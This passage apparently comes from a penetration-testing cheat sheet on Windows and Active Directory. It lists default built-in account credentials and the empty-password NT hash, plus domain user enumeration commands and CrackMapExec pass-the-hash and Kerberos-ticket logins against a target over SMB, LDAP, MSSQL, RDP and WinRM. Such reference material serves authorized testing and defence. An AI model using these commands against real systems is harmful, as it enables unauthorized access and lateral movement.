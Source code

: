 Some info about your user

```powershell
net user /dom
net user /domain
```

### Guest Credential

By default every Windows machine comes with a Guest account, its default password is empty.

```powershell
Username: Guest
Password: [EMPTY]
NT Hash: 31d6cfe0d16ae931b73c59d7e0c089c0
```

### Retail Credential 

Retail Credential [@m8urnett on Twitter](https://twitter.com/m8urnett/status/1003835660380172289)

when you run Windows in retail demo mode, it creates a user named Darrin DeYoung and an admin RetailAdmin

```powershell
Username: RetailAdmin
Password: trs10
```

### Sandbox Credential

WDAGUtilityAccount - [@never_released on Twitter](https://twitter.com/never_released/status/1081569133844676608)

Starting with Windows 10 version 1709 (Fall Creators Update), it is part of Windows Defender Application Guard

```powershell
\\windowssandbox
Username: wdagutilityaccount
Password: pw123
```

## Crackmapexec

Using [Porchetta-Industries/CrackMapExec](https://github.com/Porchetta-Industries/CrackMapExec)

* CrackMapExec supports many protocols
    ```powershell
    crackmapexec ldap 192.168.1.100 -u Administrator -H ":31d6cfe0d16ae931b73c59d7e0c089c0" 
    crackmapexec mssql 192.168.1.100 -u Administrator -H ":31d6cfe0d16ae931b73c59d7e0c089c0"
    crackmapexec rdp 192.168.1.100 -u Administrator -H ":31d6cfe0d16ae931b73c59d7e0c089c0" 
    crackmapexec smb 192.168.1.100 -u Administrator -H ":31d6cfe0d16ae931b73c59d7e0c089c0"
    crackmapexec winrm 192.168.1.100 -u Administrator -H ":31d6cfe0d16ae931b73c59d7e0c089c0"
    ```
* CrackMapExec works with password, NT hash and Kerberos authentication
    ```powershell
    crackmapexec smb 192.168.1.100 -u Administrator -p "Password123?" # Password
    crackmapexec smb 192.168.1.100 -u Administrator -H ":31d6cfe0d16ae931b73c59d7e0c089c0" # NT Hash
    export KRB5CCNAME=/tmp/kerberos/admin.ccache; crackmapexec smb 192.168.1.100 -u admin --use-kcache # Kerberos
    ```
